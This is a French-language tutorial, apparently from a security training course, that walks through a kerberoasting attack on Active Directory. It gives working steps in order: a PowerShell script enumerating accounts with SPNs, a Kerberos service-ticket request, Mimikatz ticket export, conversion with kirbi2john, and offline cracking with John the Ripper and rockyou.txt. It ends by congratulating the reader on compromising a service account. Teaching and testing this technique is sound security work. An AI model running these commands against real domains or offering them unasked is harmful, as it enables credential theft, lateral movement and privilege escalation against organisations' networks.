

Le kerberoasting est une attaque permettant de compromettre de nouveaux compte dans un Active Directory, dans une optique de mouvement latéral et délévation de privileges.
Elle permet d’acceder a des machines hebergeant des services grâce à une faille du protocole Kerberos. Elle repose sur la clé du service avec laquelle le KRB_TGS_REP est chiffré.
Toutes les notions abordés dans ce tutoriel sont développé dans la partie cours.
Le but de l’attaque kerberoasting est de récuperer un TGS du controlleur de domaine utilisant kerberos, dans l’AD. Celui-ci étant chiffré avec le mot de passe du compte de service, il est possible de retrouver celui-ci par “force brut”.
Dans une optique de mouvement latéral, cette attaque permet de récuperer des comptes de service dans l’active directory, qui ont souvent plus de privileges.
Cette attaque peux s’effectuer de plusieurs maniere differente d’effectuer cette attaque, dans ce tutoriel, vous allez découvrir une de ces manières.
Pour cette attaque de kerberoasting, vous aurez besoins d’un compte valide sur l’AD, pouvant demander des TGS (c’est-à-dire n’importe quel compte) à un compte utilisateur servant de service (car leurs mots de passes sont souvent plus simple car défini par un humain).
Vous aurez aussi besoins des outils Python 2.7, mimikatz, kirbi2john et johntheripper
Premièrement, nous avons besoins de trouver les spn. On va essayer de trouver les utilisateurs qui possèdent un SPN. Il est aussi possible de le faire avec des comptes de service comme Microsoft SQL Server, Microsoft Exchange, Microsoft SharePoint… mais leurs mot de passe sont souvent fort et changé régulièrement, et donc plus difficile à brutforce.
Voici un script powershell simple permettant de lister les utilisateurs qui possedent un SPN:
>$search= New-Object DirectoryServices.DirectorySearcher([ADSI]"")
$search.filter= "(&(objectCategory=person)(objectClass=user)(servicePrincipalName=*))"
$results= $search.Findall()
foreach($resultin $results)
{
$userEntry= $result.GetDirectoryEntry()
Write-host "User : " $userEntry.name "(" $userEntry.distinguishedName ")"
Write-host "SPNs"
foreach($SPNin $userEntry.servicePrincipalName)
{
$SPN
}
Write-host ""
}
Voici ce qui devrait vous être retourné (ici un compte “support account” possedant le SPN FAKE/SERVICE)

Maintenant que nous avons notre cible, nous allons effectuer la demande de TGS auprès du KDC:
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "FAKE/SERVICE"
on verifie si le ticket à bien été reçu grâce à la commande klist
On va ensuite utiliser mimikatz afin d’éxtraire le TGS de la memoire:
Invoke-Mimikatz -Command '"kerberos::list /export"' #Export tickets to current folder
A l’aide de kirbi2john on va ensuite convertir ce ticket (l’extension des ticket kerberos est le .kirbi) en “john” afin de pouvoir le brutforce avec johntheripper
python2.7 kirbi2john.py votreTGS.kirbi
On brutforce ensuite ce ticket avec johntheripper en utilisant une wordlist, ici nous utilisons la classique rockyou.txt :
john --wordlist=rockyou.txt votreTGS_john.txt
Si le brutforce de mot de passe reussi, celui-ci sera affiché en clair dans votre terminal.
Dans le cas échéant, changer de wordlist jusqu’à reussir, attention ce processus peux s’averer très long.
Bravo ! Vous avez compromis un compte de service de l’Active Directory !